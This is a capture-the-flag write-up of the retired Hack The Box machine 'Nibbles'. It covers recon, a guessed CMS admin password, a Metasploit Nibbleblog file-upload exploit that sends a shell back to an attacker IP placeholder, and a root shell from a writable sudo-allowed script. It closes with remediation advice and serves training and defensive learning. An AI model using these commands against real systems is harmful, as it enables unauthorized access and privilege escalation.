



# Nibbles — Hack The Box

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Status** | ✅ Retired |
| **Key techniques** | Source-comment recon, CMS RCE, `sudo` misconfiguration |

---

## TL;DR

A hint left in an HTML comment on the front page points to a lesser-known CMS
(Nibbleblog) hiding behind a non-obvious admin path. A login blacklist rules
out brute-forcing the panel, but the default/guessable password gets in
anyway, and an authenticated file-upload vulnerability in the CMS gives code
execution. Root comes from a `sudo` rule that lets the low-privileged user
run a script the CMS foothold had already left writable.

---

## Recon & Enumeration

```bash
nmap -sC -sV -sS 10.10.10.75
```


Only HTTP was interesting. The homepage looked like a placeholder page, so
the first move — before running any content-discovery tool — was to **read
the page source**. That's cheap, and comments/metadata often name the exact
software in use, which turns a blind directory brute-force into a targeted
one.



The source comment named **Nibbleblog**, a CMS I hadn't seen before but which
immediately tells me where to look: its own admin path, not a generic
`/admin`.

```bash
gobuster dir -u http://10.10.10.75 -w <wordlist> -x php
```

Found `admin.php` — the CMS's real admin panel, reachable but not
brute-forceable: the login form had a blacklist that locks out repeated
failed attempts. Guessing manually (rather than automating) avoided
triggering it, and the very first reasonable guess — the CMS's own name,
`nibbles` — was the password.



---

## Foothold / Initial Access

Nibbleblog has a known authenticated file-upload vulnerability with a public
exploit module. With valid admin credentials in hand, that's a direct path to
code execution rather than something to build from scratch:

```
msf6 > use exploit/multi/http/nibbleblog_file_upload
set USERNAME admin
set PASSWORD nibbles
set TARGETURI /nibbleblog/
set LHOST <ATTACKER_IP>
set RHOSTS 10.10.10.75
run
```

Got a shell as the low-privileged web user, user flag retrieved.

---

## Privilege Escalation

Rather than reach for an automated privesc script first, a quick look at the
home directory turned up `personal.zip` sitting in `nibbler`'s home —
worth checking because a compressed archive in a user's home is often either
a backup or something the user actually uses, and either way it's not
supposed to be there by default. Unzipping it revealed a script,
`monitor.sh`, and its path matched something `sudo -l` had already flagged:

```bash
sudo -l
# User nibbler may run the following commands on Nibbles:
#     (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```



The rule allows running that *exact path* as root with no password — and
because the archive had just placed a script at that exact path, and I own
it, I can replace its contents outright:

```bash
echo -e '#!/bin/bash\n/bin/bash' > /home/nibbler/personal/stuff/monitor.sh
chmod +x /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

Root shell, root flag retrieved.

---

## Lessons Learned

- **Read the page source before running any tool.** A single HTML comment
  named the exact CMS and saved a blind directory brute-force.
- **A login blacklist blocks automation, not a good manual guess.** Don't
  give up on credential guessing just because you can't script it — try the
  obvious values by hand first.
- **A `sudo` rule that names an exact file path is only as safe as that
  file's permissions.** If the invoking user can write the target script,
  the `NOPASSWD` rule hands them a root shell regardless of what the script
  was originally meant to do.

---

## Remediation

- Strip identifying comments and metadata from production HTML/JS — CMS
  fingerprints in source code make targeted attacks trivial.
- Keep CMS installations patched; this file-upload vulnerability had a public
  exploit module, meaning it required no original research to weaponize.
- Never grant `NOPASSWD` `sudo` rights on a script path the invoking user (or
  a group they belong to) can write to — the rule is only as strong as the
  file permissions underneath it.

---

**Machine:** [Hack The Box — Nibbles](https://www.hackthebox.com/machines/nibbles)
